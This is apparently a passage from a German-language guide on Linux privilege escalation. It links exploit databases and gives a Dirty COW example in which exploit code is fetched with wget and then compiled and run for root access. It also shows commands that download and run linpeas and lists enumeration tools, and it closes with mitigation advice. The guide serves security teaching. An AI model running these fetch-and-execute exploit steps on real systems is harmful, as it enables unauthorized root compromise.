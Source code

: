 * [https://www.exploit-db.com/](https://www.exploit-db.com/)
* [https://github.com/lucyoa/kernel-exploits](https://github.com/lucyoa/kernel-exploits)

> **Wichtig:** Nicht jeder Exploit funktioniert auf jeder Version. Führe sie in isolierter Umgebung aus (VM).

Beispiel: Dirty COW (CVE-2016-5195)

```bash
wget https://www.exploit-db.com/raw/40616
# Kompilieren und ausführen, um Root-Zugriff zu erlangen
```


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>



## Tools zur Privilege Escalation
Manuelle Enumeration ist wichtig, aber automatisierte Tools sparen viel Zeit.

| Tool                                                                        | Zweck                                              |
| --------------------------------------------------------------------------- | -------------------------------------------------- |
| [linpeas.sh](https://github.com/carlospolop/PEASS-ng)                       | Automatisiertes Enumeration-Skript                 |
| [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester) | Zeigt Kernel-Exploits für das Zielsystem an        |
| [pspy](https://github.com/DominicBreuker/pspy)                              | Prozesse und Cronjobs ohne Root anzeigen           |


```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Verteidigung und Mitigation
Als IT-Sicherheitsexperte ist es wichtig, nicht nur Angriffsmethoden zu kennen, sondern auch zu wissen, wie man sich verteidigt.

- **Prinzip der geringsten Rechte (Least Privilege):** Gewähre Benutzern nur die absolut notwendigen Berechtigungen, um ihre Aufgaben zu erfüllen.

- **SUID-Auditing:** Prüfe und deaktiviere regelmäßig SUID-Bits auf Binaries, die Benutzer nicht benötigen.

- **Regelmäßiges Patching:** Halte das Betriebssystem und den Kernel stets auf dem neuesten Stand, um bekannte Schwachstellen zu schließen.
